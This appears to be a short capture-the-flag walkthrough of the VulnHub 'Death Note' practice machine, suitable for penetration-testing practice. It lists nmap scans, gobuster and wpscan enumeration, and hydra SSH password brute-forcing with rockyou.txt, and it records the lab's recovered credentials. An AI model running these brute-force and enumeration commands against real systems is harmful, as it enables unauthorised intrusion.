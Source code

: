 # Author: Panagiotis Fiskilis/Neuro #

## Challenge name: VulnHub:Death Note ##

Link: <code>https://www.vulnhub.com/entry/deathnote-1,739/</code>

### Host Discovery ###

```bash
nmap -sP 192.168.1.* |grep -i "deathnote"
```

<b>Machine IP: 192.168.1.60</b>

<b>My IP: 192.168.1.2</b>

### Enumeration: ###

```bash
nmap -sV -sC 192.168.1.60 |tee nmap.init
nmap -p- 192.168.1.60 |tee all_ports.log
hydra -L /opt/1337/usernames.txt -P /opt/1337/rockyou.txt ssh://192.168.1.60
gobuster dir -u "http://deathnote.vuln/wordpress/" -w /opt/1337/directory-list-2.3-medium.txt |tee gobuster.log
wpscan -e ap --url "http://deathnote.vuln/wordpress/" -U /opt/1337/usernames.txt -P /opt/1337/rockyou.txt |wpscan.log
wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

<i>Nmap Results:</i>

|Port|Service|
| --- | --- |
|22 |ssh|
|80|http|

The machine is a Linux/Debian machine, that hosts a wordpress website

We have a password: <code>iamjustic3</code>

From guessing and Deathnote(the best anime ever) we know the user:kira

<b>Foothold</b>

```bash
hydra -l l -P ./notes.txt ssh://192.168.1.60
ssh l@192.168.1.60
```

l:death4me

```bash
cd /opt/L
cd fake-notebook-rule
cat case.wav
```

kira:kiraisevil

Kira is root
